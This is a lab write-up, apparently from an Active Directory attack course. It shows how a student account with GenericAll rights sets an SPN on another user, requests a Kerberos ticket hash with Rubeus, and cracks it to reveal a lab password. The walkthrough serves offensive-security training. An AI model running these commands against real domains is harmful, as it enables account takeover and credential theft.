




# Hands-on 7: SetSPN

- [Hands-on 7: SetSPN](#hands-on-7-setspn)
  - [Task](#task)
  - [Determine if studentuserx has permissions to set UserAccountControl flags for any user](#determine-if-studentuserx-has-permissions-to-set-useraccountcontrol-flags-for-any-user)
  - [If yes, force set a SPN on the user and obtain a TGS for the user.](#if-yes-force-set-a-spn-on-the-user-and-obtain-a-tgs-for-the-user)

---

## Task

- Determine if studentuserx has permissions to set UserAccountControl flags for any user.
- If yes, force set a SPN on the user and obtain a TGS for the user.

<br/>

---

## Determine if studentuserx has permissions to set UserAccountControl flags for any user

```
Find-InterestingDomainAcl -ResolveGUIDs | ?{ ($_.IdentityReferenceName -match "manager") -or ($_.IdentityReferenceName -match "studentusers") -or ($_.IdentityReferenceName -match "maintenanceusers") }
```

Recalling the above command result in Hands-on 5, the interesting ACL:

```
ObjectDN                : CN=Support64User,CN=Users,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll
ObjectAceType           : None
AceFlags                : None
AceType                 : AccessAllowed
InheritanceFlags        : None
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1116
IdentityReferenceName   : studentusers
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group
```

<br/>

Since `studentuser64` is in the `studentusers` group, it has `GenericAll` permission on the support user - it can set `UserAccountControl` flags for the user `support64user`.

<br/>

---

## If yes, force set a SPN on the user and obtain a TGS for the user.

```
Set-DomainObject -Identity support64user -Set @{serviceprincipalname='us/myspn64'}
```

  

<br/>

Inspect the SPN again:

  

* `Support64User` has the SPN `us/myspn64` now.

<br/>

Request TGS using `Rubeus.exe`:

```
.\Rubeus.exe kerberoast /user:support64user /outfile:kerberoast-support64user-hash.txt
```

  

<br/>

Use `john.exe` to crack the password:

  

- The password of `support64user` is `Desk@123`

<br/>

---